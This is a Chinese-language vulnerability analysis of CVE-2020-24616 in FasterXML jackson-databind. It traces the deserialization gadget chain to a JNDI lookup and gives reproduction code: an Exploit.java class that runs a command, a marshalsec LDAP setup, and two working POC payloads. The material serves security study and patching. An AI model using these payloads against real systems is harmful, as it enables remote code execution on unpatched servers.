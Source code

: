（CVE-2020-24616）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

br.com.anteros.dbcp.AnterosDBCPConfig类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成RCE。

### 利用条件

-   开启enableDefaultTyping()

-   使用了br.com.anteros第三方依赖

二、漏洞影响
------------

jackson-databind before 2.9.10.4jackson-databind before 2.8.11.6jackson-databind before 2.7.9.7

三、复现过程
------------

### 漏洞分析

> 相关信息：

`https://github.com/FasterXML/jackson-databind/issues/2814`

1.png

之后查找对应的issue，找到对应的绕过黑名单类：

2.png

之后在源码中定位到`br.com.anteros.dbcp.AnterosDBCPDataSource`类，可以看到该类继承自`AnterosDBCPConfig`类：

3.jpeg

之后全局搜索`healthCheckRegistry`发现在函数`setHealthCheckRegistry`作为参数进行传递，之后该参数被传入了`super.setHealthCheckRegistry(healthCheckRegistry);，`也就是调用了父类的`setHealthCheckRegistry`方法，并将此参数作为只传递，下面我们跟进该函数来看看：

4.jpeg

在父类的`setHealthCheckRegistry`方法中首先会判断`healthCheckRegistry`是否为空，如果不为空则调用当前类的`getObjectOrPerformJndiLookup`方法并将`healthCheckRegistry`作为参数传递，下面继续跟踪看看：

5.jpeg

之后再`getObjectOrPerformJndiLookup`方法中可以看到，此处的参数`object`(即:传入的数据类型healthCheckRegistry的值)首先会判断其数据类型，可以看到数据类型为`String`时会被带入`initCtx.lookup`，从而导致JNDI注入：

6.jpeg

> 整个利用链如下所示：

    mapper.readValue
        ->AnterosDBCPDataSource.setHealthCheckRegistry
            ->AnterosDBCPDataSource.setHealthCheckRegistry
                ->AnterosDBCPDataSource.getObjectOrPerformJndiLookup
                    ->initCtx.lookup();

### 漏洞复现

pom.xml如下所示：

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.10.4</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.11.2</version>
        </dependency>
        <dependency>
            <groupId>br.com.anteros</groupId>
            <artifactId>Anteros-DBCP</artifactId>
            <version>1.0.1</version>
        </dependency>
        <dependency>
          <groupId>org.slf4j</groupId>
          <artifactId>slf4j-nop</artifactId>
          <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
          <dependency>
              <groupId>javax.transaction</groupId>
              <artifactId>jta</artifactId>
              <version>1.1</version>
          </dependency>
      </dependencies>

#### 漏洞利用

##### Exploit.java代码如下：

    import java.lang.Runtime;

    public class Exploit {
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

之后编译Exploit.java，并且使用python启动一个简易的Web服务，将Exploit.class文件放置到web目录下，之后使用marshalsec启动一个LDAP服务：

7.png

##### 执行漏洞POC1:

    import com.fasterxml.jackson.databind.ObjectMapper;

    public class POC {
        public static void main(String[] args) throws Exception {
            String payload = "[\"br.com.anteros.dbcp.AnterosDBCPDataSource\",{\"healthCheckRegistry\":\"ldap://127.0.0.1:1099/Exploit\"}]";
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            mapper.readValue(payload, Object.class);
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

8.jpeg

##### 执行漏洞POC2

Poc.java代码如下所示：

    import com.fasterxml.jackson.databind.ObjectMapper;

    public class POC {
        public static void main(String[] args) throws Exception {
            String payload = "[\"br.com.anteros.dbcp.AnterosDBCPDataSource\",{\"metricRegistry\":\"ldap://127.0.0.1:1099/Exploit\"}]";
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            mapper.readValue(payload, Object.class);
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

9.jpeg

参考链接
--------

> https://xz.aliyun.com/t/8210
